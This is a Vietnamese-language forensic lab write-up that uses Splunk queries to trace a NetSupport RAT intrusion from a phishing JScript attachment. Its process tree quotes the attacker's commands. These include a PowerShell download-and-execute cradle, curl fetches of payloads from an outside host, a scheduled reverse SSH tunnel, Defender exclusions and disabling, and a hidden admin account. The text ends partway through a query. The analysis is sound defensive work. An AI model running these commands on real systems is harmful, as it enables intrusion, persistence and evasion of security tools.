# NetSupport RAT — TA569 Lab

## Thông tin chung

### Tình huống

A leading tech firm, TechSynergy, has detected an anomaly after an employee engaged with an unexpected email attachment. This triggered a series of covert operations within the network, including unusual account activity and system alterations. Security alerts indicate potential access to sensitive infrastructure, with suspicious outbound traffic raising red flags. The incident response team fears a sophisticated attack may be underway, threatening critical data. As a threat hunting and digital forensics specialist, your mission is to dissect the intrusion, map the attacker’s trail, and determine the scope of the potential damage to protect the organization.

### Danh sách host

| Host | IP |
|---|---|
| DC01 | `10.10.11.216` |
| IT-WS01 | `10.10.11.130` |

**Domain:** `corp.local`

### Môi trường lab và log

Lab cung cấp Windows Event Logs và Suricata logs trên Splunk.

---

## Điều tra

### 1. Initial Access — Phishing Attachment

Dựa trên mô tả tình huống, một nhân viên đã tương tác với tệp đính kèm email, sau đó hoạt động bất thường xuất hiện trong hệ thống. Ta có giả thuyết ban đầu đó là tệp đính kèm được tải qua trình duyệt web, sau khi tải về, trình duyệt sẽ gắn kèm **Mark-of-the-Web (MOTW)** dưới dạng Alternate Data Stream (ADS) chứa thông tin về nguồn gốc tệp tải về. Sự kiện này được ghi nhận bởi **Sysmon Event ID 15**:

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
  host="IT-WS01" EventCode=15 TargetFilename="*:Zone.Identifier"
  Image IN ("*\\chrome.exe","*\\msedge.exe","*\\firefox.exe",
            "*\\brave.exe","*\\opera.exe","*\\iexplore.exe")
| rex field=TargetFilename "^(?<file>.+?):Zone\.Identifier$"
| rex field=Contents "ZoneId=(?<ZoneId>\d+)"
| rex field=Contents "ReferrerUrl=(?<ReferrerUrl>https?://[^\s\\\\]+)"
| rex field=Contents "HostUrl=(?<HostUrl>https?://[^\s\\\\]+)"
| table _time host user Image file ZoneId ReferrerUrl HostUrl Hash Contents
| sort _time EventRecordID
```



Vào **2025-07-17 19:38:16**, trên IT-WS01, user `danderson` trong quá trình sử dụng trình duyệt `msedge.exe` đã tải xuống tệp `Invoices.zip` về thư mục `C:\Users\danderson\Downloads\` từ URL `http://10.10.5.142/Invoices.zip`.

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
  host="IT-WS01" EventCode=11
  earliest="07/17/2025:19:37:00" latest="07/17/2025:19:50:00"
  TargetFilename="C:\\Users\\danderson\\Downloads*"
| table _time Image TargetFilename
| sort _time
```



Vào **2025-07-17 19:38:32**, ngay sau khi tệp zip được tải về, user `danderson` giải nén ra thư mục `Invoices`, trong đó chứa script `Invoice_2326.js`.

#### 1.1. Thực thi JScript payload

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
  host="IT-WS01" EventCode=1
  earliest="07/17/2025:19:37:00" latest="07/17/2025:19:50:00"
| table _time host user IntegrityLevel LogonId parent_process_id
  parent_process_path process_id CommandLine
| sort _time EventRecordID
```



Vào khoảng **2025-07-17 19:39:23**, `wscript.exe` được khởi chạy để thực thi tệp `Invoice_2326.js` (**WScript** hay Windows Script Host là thành phần có sẵn trong Windows, có chức năng thực thi script VBScript hoặc JScript). Ngay sau đó, ghi nhận chuỗi hoạt động bất thường sau:

- Một câu lệnh PowerShell được thực thi và tải và thực thi script `update.ps1` từ cùng server
- Binary lạ `netsupport.exe` xuất hiện trong thư mục có tên ngẫu nhiên dưới thư mục cha là `AppData\Roaming`
- Nhiều lệnh Discovery được thực thi

Phiên đăng nhập của user `danderson` là `0x479bd7a`, ngoài ra, sự xuất hiện đồng thời của Integrity Level = **High** và = **Medium** cho thấy user `danderson` nằm trong nhóm quản trị và được gán elevated token khi đăng nhập.

Kết hợp với mô tả tình huống, xác nhận user `danderson` đã nhận 1 email phishing, tải về tệp đính kèm, giải nén và tương tác với tệp độc hại `Invoice_2326.js`, dẫn đến toàn bộ chuỗi hoạt động bất thường sau đó.

### 2. Phiên đăng nhập của user `danderson`

```spl
index=main source="XmlWinEventLog:Security" host="IT-WS01"
  latest="07/17/2025:19:37:00" EventCode IN (4624, 4672, 4627)
  (0x479dc96 OR 0x479bd7a)
```



Trong log được cung cấp, không ghi nhận record nào liên quan đến phiên đăng nhập của user `danderson` 

### 3. Process tree
```sql
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="IT-WS01" EventCode=1 earliest="07/17/2025:19:37:00"
| table _time host user IntegrityLevel LogonId parent_process_id parent_process_path process_id CommandLine
| sort _time

index=main source=XmlWinEventLog:Security host="IT-WS01" earliest="07/17/2025:19:37:00" EventCode=4688
| eval parent_process_id=tonumber(parent_process_id, 16), new_process_id=tonumber(new_process_id, 16)
| table _time SubjectUserName SubjectLogonId MandatoryLabel parent_process_id parent_process_path new_process_id new_process
| sort _time EventRecordID
```
- Kết quả:
```
                                                  [11252] C:\Windows\System32\cmd.exe  
2025-07-17 19:39:23  danderson      High      0x479bd7a   ├── [12380] "C:\Windows\System32\WScript.exe" "C:\Users\danderson\Downloads\Invoices\Invoice_2326.js"
2025-07-17 19:39:23  danderson      High      0x479bd7a   │   └── [10192] "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -WindowStyle Hidden -Command "IEX ((New-Object System.Net.WebClient).DownloadString('http://10.10.5.142/update.ps1'))"
2025-07-17 19:40:39  danderson      High      0x479bd7a   ├── [13924] "C:\Windows\System32\WScript.exe" "C:\Users\danderson\Downloads\Invoices\Invoice_2326.js"
2025-07-17 19:40:39  danderson      High      0x479bd7a   │   └── [4876] "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -WindowStyle Hidden -Command "IEX ((New-Object System.Net.WebClient).DownloadString('http://10.10.5.142/update.ps1'))"
2025-07-17 19:40:41  danderson      High      0x479bd7a   │       └── [12792] C:\Users\danderson\AppData\Roaming\hkcJM8qC\netsupport.exe  [Bổ sung từ Security 4688 - NetSupport RAT]
2025-07-17 19:44:03  danderson      High      0x479bd7a   │           ├── [14268] net user /domain
2025-07-17 19:44:04  danderson      High      0x479bd7a   │           │   └── [11848] C:\Windows\system32\net1 user /domain
2025-07-17 19:44:04  danderson      High      0x479bd7a   │           ├── [4672] net user
2025-07-17 19:44:04  danderson      High      0x479bd7a   │           │   └── [11500] C:\Windows\system32\net1 user
2025-07-17 19:45:18  danderson      High      0x479bd7a   │           ├── [9436] whoami /all
2025-07-17 19:46:23  danderson      High      0x479bd7a   │           ├── [10684] net group "Domain Admins" /domain
2025-07-17 19:46:23  danderson      High      0x479bd7a   │           │   └── [5732] C:\Windows\system32\net1 group "Domain Admins" /domain
2025-07-17 19:49:12  danderson      High      0x479bd7a   │           ├── [7240] net group "Domain Admins" /domain
2025-07-17 19:49:12  danderson      High      0x479bd7a   │           │   └── [12372] C:\Windows\system32\net1 group "Domain Admins" /domain
2025-07-17 19:50:23  danderson      High      0x479bd7a   │           ├── [8292] net user ServiceAdmin /domain
2025-07-17 19:50:23  danderson      High      0x479bd7a   │           │   └── [12636] C:\Windows\system32\net1 user ServiceAdmin /domain
2025-07-17 19:52:49  danderson      High      0x479bd7a   │           ├── [1632] net user ServiceAdmin /domain
2025-07-17 19:52:49  danderson      High      0x479bd7a   │           │   └── [11452] C:\Windows\system32\net1 user ServiceAdmin /domain
2025-07-17 19:53:59  danderson      High      0x479bd7a   │           ├── [4208] cmdkey /add:DC01 /user:CORP\ServiceAdmin /pass:FakePass123!
2025-07-17 19:55:10  danderson      High      0x479bd7a   │           ├── [5008] cmdkey /list
2025-07-17 19:56:11  danderson      High      0x479bd7a   │           ├── [8932] net view \\CORP.local\SYSVOL
2025-07-17 19:57:19  danderson      High      0x479bd7a   │           ├── [9796] tasklist | find ssh
2025-07-17 19:58:45  danderson      High      0x479bd7a   │           ├── [13396] ping -n 1 DC01
2025-07-17 20:01:19  danderson      High      0x479bd7a   │           ├── [11588] net view \\CORP.local
2025-07-17 20:02:24  danderson      High      0x479bd7a   │           ├── [12384] net view \\CORP.local\SYSVOL
2025-07-17 20:03:40  danderson      High      0x479bd7a   │           ├── [11996] tasklist
2025-07-17 20:08:17  danderson      High      0x479bd7a   │           ├── [9596] whoami /all
2025-07-17 20:17:03  danderson      High      0x479bd7a   │           ├── [11968] cmd /c "wget http://10.10.5.142/install.bat -O C:/Users/\x16danderson/install.bat"
2025-07-17 20:26:41  danderson      High      0x479bd7a   │           ├── [9056] curl http://10.10.5.142/install.bat -o C:/Users/danderson/install.bat
2025-07-17 20:29:07  danderson      High      0x479bd7a   │           ├── [9844] C:\Windows\system32\cmd.exe /c C:/Users/danderson/install.bat
2025-07-17 20:29:08  danderson      High      0x479bd7a   │           │   ├── [10156] C:\Windows\System32\OpenSSH\ssh-keygen.exe  [Bổ sung từ Security 4688]
2025-07-17 20:29:10  danderson      High      0x479bd7a   │           │   ├── [12376] C:\Windows\System32\OpenSSH\ssh-keygen.exe  [Bổ sung từ Security 4688]
2025-07-17 20:29:11  danderson      High      0x479bd7a   │           │   ├── [13972] icacls "C:\ProgramData\sshd\config\keys\id_rsa" /grant:r "danderson:(R)"
2025-07-17 20:29:11  danderson      High      0x479bd7a   │           │   ├── [8604] icacls "C:\ProgramData\sshd\config\keys\id_rsa" /inheritance:r
2025-07-17 20:29:12  danderson      High      0x479bd7a   │           │   ├── [6396] schtasks.exe /create /sc minute /mo 1 /tn "SSH Key Exchange" /rl highest /tr "C:\ProgramData\sshd\ssh.exe -i C:\ProgramData\sshd\config\keys\id_rsa -N -R 369:127.0.0.1:2222 root@10.10.5.142 -o StrictHostKeyChecking=no -o ServerAliveInterval=60 -o ServerAliveCountMax=15"
2025-07-17 20:29:12  danderson      High      0x479bd7a   │           │   └── [7736] schtasks.exe /create /sc minute /mo 1 /tn "SSH Server" /rl highest /tr "C:\ProgramData\sshd\sshd.exe -f C:\ProgramData\sshd\config\sshd_config"

                                                  [1372] C:\Windows\System32\svchost.exe -k netsvcs -p -s Schedule  [Task Scheduler Service]
2025-07-17 20:30:01  danderson      High      0x3e7       ├── [14236] C:\ProgramData\sshd\ssh.exe  [Bổ sung từ Security 4688 - Reverse SSH Tunnel]
2025-07-17 20:30:01  danderson      High      0x3e7       └── [732] C:\ProgramData\sshd\sshd.exe  [Bổ sung từ Security 4688 - SSH Server Daemon]


2025-07-17 20:44:30  danderson      High      0x479bd7a   │           ├── [13600] netstat -ano | findstr 2222
2025-07-17 20:50:07  danderson      High      0x479bd7a   │           ├── [8900] net localgroup "Remote Desktop Users" WDAGUtilityAccount2 /add
2025-07-17 20:50:07  danderson      High      0x479bd7a   │           │   └── [12012] C:\Windows\system32\net1 localgroup "Remote Desktop Users" WDAGUtilityAccount2 /add
2025-07-17 20:51:35  danderson      High      0x479bd7a   │           ├── [10136] net localgroup administrators
2025-07-17 20:51:35  danderson      High      0x479bd7a   │           │   └── [9336] C:\Windows\system32\net1 localgroup administrators
2025-07-17 20:52:57  danderson      High      0x479bd7a   │           ├── [10256] net localgroup Administrators WDAGUtilityAccount2 /add
2025-07-17 20:52:57  danderson      High      0x479bd7a   │           │   └── [12396] C:\Windows\system32\net1 localgroup Administrators WDAGUtilityAccount2 /add
2025-07-17 21:08:21  danderson      High      0x479bd7a   │           ├── [13008] whoami /all
2025-07-17 21:09:38  danderson      High      0x479bd7a   │           ├── [11428] net user WDAGUtilityAccount2 Decryptme1488@ /add
2025-07-17 21:09:38  danderson      High      0x479bd7a   │           │   └── [11756] C:\Windows\system32\net1 user WDAGUtilityAccount2 Decryptme1488@ /add
2025-07-17 21:11:02  danderson      High      0x479bd7a   │           ├── [9652] net localgroup Administrators WDAGUtilityAccount2 /add
2025-07-17 21:11:02  danderson      High      0x479bd7a   │           │   └── [4820] C:\Windows\system32\net1 localgroup Administrators WDAGUtilityAccount2 /add
2025-07-17 21:12:12  danderson      High      0x479bd7a   │           ├── [12104] net localgroup "Remote Desktop Users" WDAGUtilityAccount2 /add
2025-07-17 21:12:12  danderson      High      0x479bd7a   │           │   └── [13064] C:\Windows\system32\net1 localgroup "Remote Desktop Users" WDAGUtilityAccount2 /add
2025-07-17 21:12:12  danderson      High      0x479bd7a   │           ├── [692] powershell Get-MpThreat
2025-07-17 21:13:22  danderson      High      0x479bd7a   │           ├── [9084] powershell Get-MpPreference
2025-07-17 21:14:50  danderson      High      0x479bd7a   │           ├── [9376] powershell "Add-MpPreference -ExclusionPath 'C:\Users\Public'"
2025-07-17 21:14:50  danderson      High      0x479bd7a   │           ├── [1468] cmd "powershell -Command \"Add-MpPreference -ExclusionPath 'C:\Users\Public'\""
2025-07-17 21:23:51  danderson      High      0x479bd7a   │           ├── [10400] curl http://10.10.5.142/mpms.exe -o C:/Users/danderson/Documents/mpms.exe
2025-07-17 21:25:02  danderson      High      0x479bd7a   │           ├── [6436] powershell "Add-MpPreference -ExclusionProcess C:\Users\danderson\Documents\mpms.exe"
2025-07-17 21:25:02  danderson      High      0x479bd7a   │           ├── [12420] powershell Add-MpPreference -DisableBehaviorMonitoring True
2025-07-17 21:25:02  danderson      High      0x479bd7a   │           ├── [10328] powershell Add-MpPreference -DisableBehaviourMonitoring True
2025-07-17 21:25:02  danderson      High      0x479bd7a   │           ├── [10936] powershell Add-MpPreference -DisDisableRealtimeMonitoring True
2025-07-17 21:26:30  danderson      High      0x479bd7a   │           ├── [9796] powershell "Add-MpPreference -DisableBehaviorMonitoring True"
2025-07-17 21:26:30  danderson      High      0x479bd7a   │           ├── [12392] powershell "Add-MpPreference -DisDisableRealtimeMonitoring True"
2025-07-17 21:26:30  danderson      High      0x479bd7a   │           ├── [13816] powershell "Add-MpPreference -DisableBehaviourMonitoring True"
2025-07-17 21:29:00  danderson      High      0x479bd7a   │           ├── [2788] powershell "Get-Process -Name lsass"
2025-07-17 22:04:31  danderson      High      0x479bd7a   │           ├── [10428] whoami

                                                  [6696] C:\Windows\explorer.exe  [danderson GUI Session]
2025-07-17 21:32:37  danderson      High      0x479bd7a   └── [11252] "C:\Windows\system32\cmd.exe"
2025-07-17 21:32:44  danderson      High      0x479bd7a       └── [12492] whoami

2025-07-17 22:13:03  danderson      High      0x479bd7a   │           ├── [4656] wmic /node:10.10.11.216 /user:aclark /password:vm96Dva! process call create "netsh advfirewall firewall add rule dir=in name=\"DCOM\" program=C:\Windows\System32\svchost.exe service=rpcss action=allow protocol=TCP localport=135"
2025-07-17 22:14:31  danderson      High      0x479bd7a   │           ├── [12456] wmic /node:10.10.11.216 /user:aclark /password:vm96Dva! process call create "netsh advfirewall firewall show rule name=\"DCOM\""
2025-07-17 22:17:56  danderson      High      0x479bd7a   │           └── [12884] wmic /node:10.10.11.216 /user:aclark /password:vm96Dva! process call create "netsh advfirewall firewall add rule dir=in name=\"WMI\" program=C:\Windows\System32\svchost.exe service=winmgmt action=allow protocol=TCP localport=any"
2025-07-17 21:02:12  danderson      High      0x479bd7a   ├── [10580] net user
2025-07-17 21:02:12  danderson      High      0x479bd7a   │   └── [10284] C:\Windows\system32\net1 user
2025-07-17 21:04:53  danderson      High      0x479bd7a   └── [9764] net user
2025-07-17 21:04:53  danderson      High      0x479bd7a       └── [6892] C:\Windows\system32\net1 user

```

### 4. Process `wscript.exe` — JScript Loader

Ghi nhận 2 instance wscript.exe chạy Invoice_2326.js: **PID:** 12380, 13924 — **Thời điểm khởi chạy:** 2025-07-17 19:39:23, 19:40:39

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
  host="IT-WS01" earliest="07/17/2025:19:39:00"
  (process_id IN (12380, 13924) OR parent_process_id IN (12380, 13924)
   OR SourceProcessId IN (12380, 13924))
  ({c73af8d8-516b-6879-5714-000000005300} OR {c73af8d8-51b7-6879-6614-000000005300})
| stats count by EventCode
```





Mỗi instance `wscript.exe` khởi chạy một lệnh PowerShell:

```
powershell.exe -NoProfile -WindowStyle Hidden -Command "IEX ((New-Object System.Net.WebClient).DownloadString('http://10.10.5.142/update.ps1'))"
```

Lệnh này tải script `update.ps1` từ `http://10.10.5.142/update.ps1` rồi thực thi trực tiếp trong memory bằng `Invoke-Expression` (IEX). Các cờ mà lệnh thiết lập:
- `-NoProfile`: Bỏ qua việc nạp PowerShell profile
- `-WindowStyle Hidden`: Ẩn cửa sổ PowerShell thực thi

### 5. Process `powershell.exe` — Dropper/Loader

2 instance powershell tương ứng với 2 lần wscript chạy: **PID:** 10192, 4876 — **Thời điểm khởi chạy:** 2025-07-17 19:39:23, 19:40:39

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
  host="IT-WS01" earliest="07/17/2025:19:39:00"
  (process_id IN (10192, 4876) OR parent_process_id IN (10192, 4876)
   OR SourceProcessId IN (10192, 4876))
  ({c73af8d8-516b-6879-5814-000000005300} OR {c73af8d8-51b7-6879-6714-000000005300})
| stats count by EventCode
```

```spl
index=main source="XmlWinEventLog:Security" host="IT-WS01"
  earliest="07/17/2025:19:39:00" EventCode=4689 process=*powershell.exe
| where ProcessId=lower(tostring(10192, "hex")) OR ProcessId=lower(tostring(4876, "hex"))
| table _time src_user Logon_ID ProcessId process
```



Thống kê Sysmon event id liên quan đến hai process này:



Cả hai process đều kết thúc chỉ vài giây sau khi khởi chạy. Hành vi ghi nhận được sau đó từ chúng bao gồm: drop payload, thiết lập persistence qua Run Key rồi kết thúc ngay cho thấy script update.ps1 đóng vai trò một **loader giai đoạn đầu**, có nhiệm vụ duy nhất là triển khai và khởi chạy payload chính.

#### 5.1. Kết nối mạng

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
  host="IT-WS01" earliest="07/17/2025:19:39:00"
  process_id IN (10192, 4876)
  ({c73af8d8-516b-6879-5814-000000005300} OR {c73af8d8-51b7-6879-6714-000000005300})
  EventCode=3
| table _time Image ProcessId DestinationIp DestinationPort
```



Vào **2025-07-17 19:39:29**, process `powershell.exe` (PID 10192) kết nối tới `10.10.5.142:80` — đây là kết nối tải script `update.ps1`.

#### 5.2. File Creation — Payload drop

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
  host="IT-WS01" earliest="07/17/2025:19:39:00"
  process_id IN (10192, 4876)
  ({c73af8d8-516b-6879-5814-000000005300} OR {c73af8d8-51b7-6879-6714-000000005300})
  EventCode=11
| table _time process_id TargetFilename
```



Cả hai process đều tạo thư mục có tên ngẫu nhiên trong `AppData\Roaming` rồi drop binary `netsupport.exe` vào đó:

| Thời gian | PID | Đường dẫn |
|---|---|---|
| 2025-07-17 19:39:29 | 10192 | `C:\Users\danderson\AppData\Roaming\P8jTg6Hj\netsupport.exe` |
| 2025-07-17 19:40:40 | 4876 | `C:\Users\danderson\AppData\Roaming\hkcJM8qC\netsupport.exe` |

Payload được đặt tên `netsupport.exe`, có thể nhằm giả mạo phần mềm quản trị từ xa hợp lệ **NetSupport Manager** vốn được thiết kế cho IT Support.

#### 5.3. File hash

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
  host="IT-WS01" earliest="07/17/2025:19:39:00"
  process_id IN (10192, 4876)
  ({c73af8d8-516b-6879-5814-000000005300} OR {c73af8d8-51b7-6879-6714-000000005300})
  EventCode=29
| table _time process_id TargetFilename Hashes
```



Hash của `netsupport.exe`:
- **SHA256:** `81EDC7075CA7BE5512FB7952874C9D174E64EDD4409FFA91991C058F5B2B176C`
- **SHA1:** `AE5A3A98C198E998A1A22D300C7E027EF7647657`
- **MD5:** `CBC0745956FEFB5907AEC80BBADD5EC8`
- **IMPHASH:** `F0EA7B7844BBC5BFA9BB32EFDCEA957C`



VirusTotal không có thông tin về binary này.

#### 5.4. Persistence — Registry Run Key

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
  host="IT-WS01" earliest="07/17/2025:19:39:00"
  process_id IN (10192, 4876)
  ({c73af8d8-516b-6879-5814-000000005300} OR {c73af8d8-51b7-6879-6714-000000005300})
  EventCode=13
| table _time process_id registry_key_name registry_path registry_value_name RuleName
```



Vào **2025-07-17 19:40:41**, process `powershell.exe` (PID 4876) thêm 1 value với tên `NetSupport` vào **Run Key** thuộc HKCU (chỉ có tác dụng đối với user `danderson`), value này có giá trị trỏ tới đường dẫn `C:\Users\danderson\AppData\Roaming\hkcJM8qC\netsupport.exe`.

#### 5.5. Khởi chạy RAT

```spl
index=main host="IT-WS01" earliest="07/17/2025:19:37:00"
  latest="07/17/2025:19:50:00" EventCode=4688 netsupport.exe
| eval parent_process_id=tonumber(parent_process_id, 16),
       new_process_id=tonumber(new_process_id, 16)
| table _time SubjectUserName SubjectLogonId MandatoryLabel
  parent_process_id parent_process_path new_process_id new_process
| sort _time EventRecordID
```



Vào **2025-07-17 19:40:41**, process `powershell.exe` (PID 4876) khởi chạy `netsupport.exe` (PID 12792).

```spl
index=main host="IT-WS01" earliest="07/17/2025:19:40:00"
  EventCode=4688 new_process=*netsupport.exe
| eval parent_process_id=tonumber(parent_process_id, 16),
       new_process_id=tonumber(new_process_id, 16)
| table _time SubjectUserName SubjectLogonId MandatoryLabel
  parent_process_id parent_process_path new_process_id new_process
| sort _time EventRecordID
```



Chưa ghi nhận Run Key kích hoạt và khởi chạy `netsupport.exe` thêm lần nào.

### 6. Process `netsupport.exe` (PID 12792) — RAT chính

**Thời điểm khởi chạy:** 2025-07-17 19:40:41

```spl
index=main source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
